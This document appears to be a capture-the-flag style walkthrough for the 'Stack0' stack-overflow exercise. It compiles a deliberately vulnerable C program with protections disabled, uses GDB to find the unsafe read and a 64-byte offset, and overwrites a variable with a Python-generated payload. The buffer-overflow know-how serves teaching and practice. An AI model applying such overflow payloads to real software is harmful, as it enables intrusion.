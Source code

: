# Explaination

1. **Compile**

```bash
gcc -m32 -std=gnu89 -fno-stack-protector -g -z execstack -no-pie Stack0.c -o Stack0
```

2. **Drop into GDB and locate vulnerable read**
```bash
gdb ./Stack0

(gdb) disassemble main
```
![Breakpoint](Images/BreakPointGets.png)

- Scan for call to `gets`/`strcpy`/`fgets` (whichever unsafe function used).
- Note its address, say `0x080491a6`.


3. **Break at that instruction**
```gdb
(gdb) break *0x080491a6
```

4. **Run a large dummy payload**
```gdb
#directly from GDB
(gdb) run < <(python3 -c "print('A'*200)")
```

5. **When it stops print the addresses**
```gdb
(gdb) print &buffer        # start of buffer
(gdb) print &modified      # or &return_addr slot
```
![Disas](Images/GDBdisas.png)

This gives you the number of filler bytes you need to reach `target` (whether it’s a local var or saved RIP/EIP).

6. **Compute exact byte distance**
```gdb
(gdb) print (char*)&modified - (char*)&buffer #will find exact offset
64
```
![Offset](Images/OffsetStack0.png)

7. **Craft payload and execute**

```bash
python3 -c 'print("A"*64 + "B")' | ./Stack0
```
![Success](Images/Success.png)
